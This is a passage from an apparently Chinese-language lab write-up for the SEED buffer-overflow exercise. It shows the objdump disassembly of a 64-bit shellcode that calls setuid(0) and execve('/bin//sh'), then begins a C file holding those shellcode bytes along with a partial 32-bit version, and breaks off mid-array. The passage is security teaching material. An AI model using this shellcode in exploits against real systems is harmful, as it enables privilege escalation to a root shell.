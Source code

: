 使用 **`gcc -nostdlib -static sh64.s -o sh64`** 命令编译上述汇编代码，然后使用 objdump -d 对编译得到二进制机器码进行反汇编。

```armasm{.line-numbers}
monica@xvm:~/csapp/seed-buffer-overflow-lab$ objdump -d sh64

sh64：     文件格式 elf64-x86-64

Disassembly of section .text:

0000000000401000 <__bss_start-0x1000>:
  401000:	48 31 ff             	xor    %rdi,%rdi
  401003:	b0 69                	mov    $0x69,%al
  401005:	0f 05                	syscall 
  401007:	48 31 d2             	xor    %rdx,%rdx
  40100a:	52                   	push   %rdx
  40100b:	48 b8 2f 62 69 6e 2f 	movabs $0x68732f2f6e69622f,%rax
  401012:	2f 73 68 
  401015:	50                   	push   %rax
  401016:	48 89 e7             	mov    %rsp,%rdi
  401019:	52                   	push   %rdx
  40101a:	57                   	push   %rdi
  40101b:	48 89 e6             	mov    %rsp,%rsi
  40101e:	48 31 c0             	xor    %rax,%rax
  401021:	b0 3b                	mov    $0x3b,%al
  401023:	0f 05                	syscall 
```

#### 2.4 执行 shellcode

我们将上述编译得到的 32 位和 64 位 shellcode 的二进制代码编写到下面的 c 代码中：

```c{.line-numbers}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
#if __x86_64__
"\x48\x31\xff"
"\xb0\x69"
"\x0f\x05"

"\x48\x31\xd2"
"\x52"
"\x48\xb8\x2f\x62\x69\x6e\x2f"
"\x2f\x73\x68"
"\x50"
"\x48\x89\xe7"
"\x52"
"\x57"
"\x48\x89\xe6"
"\x48\x31\xc0"
"\xb0\x3b"
"\x0f\x05"
#else
"\x31\xc0"
"\x31\xdb"
"\xb0\xd5"
"\xcd\x80"

"\x31\xc0"
"\x50"
"\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e"
"\x89\xe3"
"\x50"
```